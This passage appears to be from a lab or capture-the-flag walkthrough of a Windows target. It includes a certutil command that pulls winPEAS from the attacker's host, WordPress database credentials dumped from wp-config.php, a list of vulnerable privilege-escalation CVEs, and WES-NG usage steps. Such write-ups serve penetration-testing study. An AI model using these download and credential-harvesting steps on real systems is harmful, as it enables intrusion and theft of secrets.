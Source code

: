 ```none
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.29
                                 [02]: fe80::9176:2c10:3b01:cf0f
                                 [03]: dead:beef::9176:2c10:3b01:cf0f
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

While looking into other things, ran some winPEAS in the background.

```none
certutil.exe -urlcache -f http://10.10.14.51:8000/peas.exe peas.exe
```

Got some WordPress credentials in the winPEAS output - could be useful for a later Starting Point machine... or this one!

```none
    'C:\inetpub\wwwroot\wordpress\wp-config.php' - content:
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress124');
/** MySQL database username */
define('DB_USER', 'wordpressuser124');
/** MySQL database password */
define('DB_PASSWORD', 'P_-U9dA6q.B|');
/** MySQL hostname */
define('DB_HOST', 'localhost');
```

The winPEAS tool is awesome as it reports on Windows exploits using Watson. So it is kind of like getting two tools in one. Below is a condensed list of discovered CVEs.

```none
[!] CVE-2019-0836 : VULNERABLE
[!] CVE-2019-1064 : VULNERABLE
[!] CVE-2019-1130 : VULNERABLE
[!] CVE-2019-1315 : VULNERABLE
[!] CVE-2019-1388 : VULNERABLE
[!] CVE-2019-1405 : VULNERABLE
[!] CVE-2020-0668 : VULNERABLE
[!] CVE-2020-0683 : VULNERABLE
[!] CVE-2020-1013 : VULNERABLE
```

Also ran [Windows Exploit Suggester - Next Generation (WES-NG)](https://github.com/bitsadmin/wesng). I always waste time reading the instructions - so documenting the general process for next time I need it.

```none
git clone https://github.com/bitsadmin/wesng.git
cd wesng
python3 wes.py --update
python3 wes.py <systeminfo-file>
```
